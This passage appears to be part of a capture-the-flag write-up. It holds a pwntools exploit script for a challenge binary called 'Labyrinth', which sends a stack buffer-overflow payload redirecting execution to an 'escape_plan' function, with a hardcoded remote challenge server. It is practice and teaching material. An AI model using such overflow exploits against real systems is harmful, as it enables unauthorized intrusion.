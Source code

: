 

    p.interactive()
### Labyrinth
    #!/usr/bin/python3

    from pwn import *
    import argparse
    from time import *


    parser = argparse.ArgumentParser(description='Exploit script')
    parser.add_argument('remote', nargs='?', default=None, help='Run the exploit on a remote server')
    args = parser.parse_args()

    exe = ELF('./labyrinth_patched', checksec=False)
    #libc = ELF('./libc.so.6', checksec=False)
    #ld = ELF('./ld-linux-x86-64.so.2', checksec=False)
    #libc = exe.libc

    #context.binary = exe
    context.terminal = ['wt.exe','-d', '.', 'wsl.exe', '-d', 'Ubuntu-22.04']

    info = lambda msg: log.info(msg)
    sla = lambda msg, data: p.sendlineafter(msg, data)
    sa = lambda msg, data: p.sendafter(msg, data)
    sl = lambda data: p.sendline(data)
    s = lambda data: p.send(data)
    sln = lambda msg, num: sla(msg, str(num).encode())
    sn = lambda msg, num: sa(msg, str(num).encode())

    def GDB():
        if args.remote is None:
            gdb.attach(p, gdbscript='''
            b* 0x00000000004015D5

            c
            ''')
            input()

    if args.remote:
        p = remote('94.237.59.30',36382)  
    else:
        p = process(exe.path)  

    #GDB()

    sl(b'069')
    ret = 0x0000000000401016
    pl = flat(
        b'a'*0x38,
        p32(ret),
        p32(0),
        p32(exe.sym.escape_plan),
        p32(0),

    )
    sl(pl)
